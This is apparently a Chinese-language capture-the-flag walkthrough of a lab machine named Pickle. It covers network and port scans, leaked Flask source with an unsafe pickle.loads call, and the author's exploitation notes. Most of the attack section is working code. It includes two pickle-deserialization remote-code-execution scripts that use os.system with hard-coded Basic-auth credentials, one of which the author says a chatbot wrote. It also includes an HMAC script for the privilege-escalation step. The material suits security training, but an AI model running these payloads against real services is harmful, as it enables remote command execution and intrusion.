## 网段扫描

```
root@LingMj:~# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:d1:27:55, IPv4: 192.168.137.190
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.137.1	3e:21:9c:12:bd:a3	(Unknown: locally administered)
192.168.137.191	3e:21:9c:12:bd:a3	(Unknown: locally administered)
192.168.137.203	a0:78:17:62:e5:0a	Apple, Inc.

6 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.021 seconds (126.67 hosts/sec). 3 responded
```

## 端口扫描

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-08 07:51 EDT
Nmap scan report for pickle.mshome.net (192.168.137.191)
Host is up (0.0089s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxr-xr-x    1 0        0            1306 Oct 12  2020 init.py.bak
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.137.190
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
1337/tcp open  http    Werkzeug httpd 1.0.1 (Python 2.7.16)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| http-auth: 
| HTTP/1.0 401 UNAUTHORIZED\x0D
|_  Basic realm=Pickle login
|_http-server-header: Werkzeug/1.0.1 Python/2.7.16
MAC Address: 3E:21:9C:12:BD:A3 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.74 seconds
                                                             
```

## 获取webshell

  


```
from functools import wraps
from flask import *
import hashlib
import socket
import base64
import pickle
import hmac

app = Flask(__name__, template_folder="templates", static_folder="/opt/project/static/")

@app.route('/', methods=["GET", "POST"])
def index_page():
	'''
		__index_page__()
	'''
	if request.method == "POST" and request.form["story"] and request.form["submit"]:
		md5_encode = hashlib.md5(request.form["story"]).hexdigest()
		paths_page  = "/opt/project/uploads/%s.log" %(md5_encode)
		write_page = open(paths_page, "w")
		write_page.write(request.form["story"])

		return "The message was sent successfully!"

	return render_template("index.html")

@app.route('/reset', methods=["GET", "POST"])
def reset_page():
	'''
		__reset_page__()
	'''
	pass


@app.route('/checklist', methods=["GET", "POST"])
def check_page():
	'''
		__check_page__()
	'''
	if request.method == "POST" and request.form["check"]:
		path_page    = "/opt/project/uploads/%s.log" %(request.form["check"])
		open_page    = open(path_page, "rb").read()
		if "p1" in open_page:
			open_page = pickle.loads(open_page)
			return str(open_page)
		else:
			return open_page
	else:
		return "Server Error!"

	return render_template("checklist.html")

if __name__ == '__main__':
	app.run(host='0.0.0.0', port=1337, debug=True)
```

  
  

>密码爆破失败了
>

  

  
  

>发现UDP
>

  
  

>要不是没ssh我直接登录了哈哈哈哈
>

  
  

>直接让gtp给我个反序列化计划
>

```
import requests
import hashlib
import pickle
import os
import base64

# 配置目标服务器和认证信息
TARGET_URL = "http://localhost:1337/"
AUTH_CREDENTIALS = "lucas:SuperSecretPassword123!"
COMMAND_TO_EXECUTE = "echo 'Success: RCE achieved!' > /tmp/rce_proof.txt"  # 测试命令

# 生成Basic认证头
auth_header = {
    "Authorization": f"Basic {base64.b64encode(AUTH_CREDENTIALS.encode()).decode()}"
}

class Exploit(object):
    def __reduce__(self):
        # 在此注入需要执行的系统命令
        return (os.system, (COMMAND_TO_EXECUTE,))

# 构造恶意Payload
def generate_payload():
    # 使用协议0确保ASCII兼容性
    pickled = pickle.dumps(Exploit(), protocol=0)
    # 添加触发反序列化的前缀
    return b"p1" + pickled

# 计算Payload的MD5哈希
payload = generate_payload()
md5_hash = hashlib.md5(payload).hexdigest()

# 步骤1：上传恶意Payload
print("[*] Uploading malicious payload...")
upload_response = requests.post(
    TARGET_URL,
    headers=auth_header,
    data={"story": payload.decode('latin1'), "submit": "Submit"},  # 转换payload为字符串
    verify=False  # 忽略SSL证书验证（如果有需要）
)
if "successfully" not in upload_response.text:
    print("[!] Payload upload failed:", upload_response.text)
    exit(1)

print("[+] Payload successfully uploaded. MD5:", md5_hash)

# 步骤2：触发反序列化执行
print("[*] Triggering deserialization...")
trigger_response = requests.post(
    f"{TARGET_URL}checklist",
    headers=auth_header,
    data={"check": md5_hash},
    verify=False
)

print("[+] Server response:", trigger_response.text)
```

>不知道能不能成功让gtp一直改就行
>


>好吧不行我去找大佬脚本利用了，gtp构造失败我也不想写
>

```
#coding:utf-8
import os
import cPickle
import hashlib
import requests


class CommandExecute(object):
        def __reduce__(self):
                return (os.system, ('ping -c 1 192.168.137.190',))

convert_data = cPickle.dumps(CommandExecute())
convert_crypt = hashlib.md5(convert_data).hexdigest()
send_requests = requests.post('http://192.168.137.191:1337/', data={"story":convert_data, "submit":"Submit+Query"}, auth=("lucas", "SuperSecretPassword123!"))
check_requests = requests.post('http://192.168.137.191:1337/checklist', data={"check":convert_crypt}, auth=("lucas", "SuperSecretPassword123!"))
print(check_requests.text)
```

>这个是python2不是python3
>

  
  

>我直接执行busybox
>


## 提权

  
  

>我直接工具,找了半天没找到提权我看看wp了
>

  
  

>脚本
>

```
import hashlib
import socket
import base64
import hmac

user=['lucas', 'mark']
for i in user:
    key = "dpff43f3p214k31301"
    raw = i + key + socket.gethostbyname(socket.gethostname())
    hashed = hmac.new(key, raw, hashlib.sha1)
    print("[+] USER:",i)
    print(base64.b64encode(hashed.digest().encode("base64").rstrip("\n")))
```

  
  

>失败了算了，我直接找内核方法了
>

  
  
